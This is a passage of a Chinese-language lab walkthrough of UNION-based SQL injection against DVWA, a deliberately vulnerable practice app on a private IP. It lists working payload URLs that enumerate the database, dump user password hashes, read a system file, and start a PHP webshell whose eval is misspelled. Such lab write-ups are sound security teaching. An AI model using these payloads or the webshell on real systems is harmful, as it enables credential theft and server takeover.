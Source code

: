

5. 通过`union select`确定回显点

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+1,2--+ &Submit=Submit#
   ```

   1,2都正常回显

6. 攻击

   查询数据库信息。`@@version`查询数据库版本，`@@datadir`查询数据库的目录

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+@@version,@@datadir--+ &Submit=Submit#
   ```

   查询用户名和数据库名。`user()` 查询用户名，`database()`查询数据库名

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+user()+,database()--+ &Submit=Submit#
   ```

   查询表名。`information_schema.tables`查询数据库表名

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+1,table_name+from+information_schema.tables+where+table_schema='dvwa'--+ &Submit=Submit#
   ```

   查询列名。`information_schema.columns`查询数据表列名

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+1,column_name+from+information_schema.columns+where+table_name='users'--+ &Submit=Submit#
   ```

   查询用户名和密码。列名: user，password，获取用户密码hash，通过http://www.cmd5.com/反查明文密码

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+user,password+from+users--+ &Submit=Submit#
   ```

   文件读取。`load file()`加载电脑文件win.ini

   ```bash
   http://10.240.138.212/DVWA-1.9/vulnerabilities/sqli/?id=xx'+union+select+1,load_file("C:\\windows\\win.ini")--+ &Submit=Submit#
   ```

   写Webshell，PHP一句话木马

   准备cmd.php

   ```bash
   <?php
   @e222val($_GET['cmd']);
   ?>
   ```
